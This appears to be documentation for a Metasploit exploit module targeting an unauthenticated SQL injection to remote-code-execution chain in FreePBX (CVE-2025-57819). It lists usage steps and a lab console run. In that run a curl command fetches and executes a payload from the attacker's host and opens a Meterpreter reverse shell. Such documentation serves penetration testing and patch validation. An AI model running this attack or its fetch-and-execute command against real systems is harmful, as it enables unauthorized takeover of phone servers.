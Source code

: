 ## Vulnerable Application
FreePBX is an open-source web-based graphical user interface. FreePBX 15, 16, and 17
endpoints are vulnerable due to insufficiently sanitized user-supplied data allowing
unauthenticated access to FreePBX Administrator leading to arbitrary database manipulation
and remote code execution.
This module exploits a vulnerability chain in FreePBX, tracked as CVE-2025-57819.
An authentication bypass exposes unauthenticated access to `/admin/ajax.php`, which
contains a SQL injection flaw. By leveraging this vulnerability, an attacker can
achieve remote code execution through the creation of cron jobs under the `asterisk`
database user context.

The following FreePBX version has been tested:

- FreePBX 16.0.33


## Testing
To set up a test environment:
1. Install FreePBX and perform basic minimum setup (prompted by installer). I used proxmox to get a working installation. [Link](https://downloads.freepbxdistro.org/ISO/SNG7-PBX16-64bit-2302-1.iso)
2. Confirm that the web service on port 80/443 is reachable.
3. Follow the verification steps below.

## Options
No custom options exist for this module.

## Verification Steps
1. Start msfconsole
2. `use exploit/unix/http/freepbx_unauth_sqli_to_rce`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `run`

## Scenarios
### FreePBX Linux Target
```
msf exploit(unix/http/freepbx_unauth_sqli_to_rce) > show options 

Module options (exploit/unix/http/freepbx_unauth_sqli_to_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks5, socks5h, http, sapni, socks4
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                no        The URI for the FreePBX installation
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, GET, TFTP, TNFTP, WGET)
   FETCH_DELETE    false            yes       Attempt to delete the binary after execution
   FETCH_FILELESS  none             yes       Attempt to run payload without touching disk by using anonymous handles, requires Linux ≥3.17 (for Python variant also Python ≥3.8 (Accepted: none, bash, python3.8+)
   FETCH_SRVHOST                    no        Local IP to use for serving payload
   FETCH_SRVPORT   8080             yes       Local port to use for serving payload
   FETCH_URIPATH                    no        Local URI to use for serving payload
   LHOST                            yes       The listen address (an interface may be specified)
   LPORT           4444             yes       The listen port


   When FETCH_COMMAND is one of CURL,GET,WGET:

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   FETCH_PIPE  false            yes       Host both the binary payload and the command so it can be piped directly to the shell.


   When FETCH_FILELESS is none:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      dCIEGUvcv        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  ./               yes       Remote writable dir to store payload; cannot contain spaces


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf exploit(unix/http/freepbx_unauth_sqli_to_rce) > set RHOSTS 192.168.1.116
RHOSTS => 192.168.1.116
msf exploit(unix/http/freepbx_unauth_sqli_to_rce) > set LHOST eth0
LHOST => 192.168.1.65
msf exploit(unix/http/freepbx_unauth_sqli_to_rce) > set VERBOSE true
VERBOSE => true
msf exploit(unix/http/freepbx_unauth_sqli_to_rce) > run
[*] Command to run on remote host: curl -so ./KjFruDjiGx http://192.168.1.65:8080/V3hgkVKmhAqViDKE6xmupA;chmod +x ./KjFruDjiGx;./KjFruDjiGx&
[*] Fetch handler listening on 192.168.1.65:8080
[*] HTTP server started
[*] Adding resource /V3hgkVKmhAqViDKE6xmupA
[*] Started reverse TCP handler on 192.168.1.65:4444 
[+] Created cronjob with job name: 'BUQm'
[*] Waiting for cronjob to trigger...
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3090404 bytes) to 192.168.1.116
[*] Meterpreter session 1 opened (192.168.1.65:4444 -> 192.168.1.116:39258) at 2025-09-21 16:21:38 -0400
[*] Attempting to perform cleanup
[+] Cronjob removed, happy hacking!

meterpreter > sysinfo
Computer     : freepbx.sangoma.local
OS           : Red Hat 7.8.2003 (Linux 3.10.0-1127.19.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```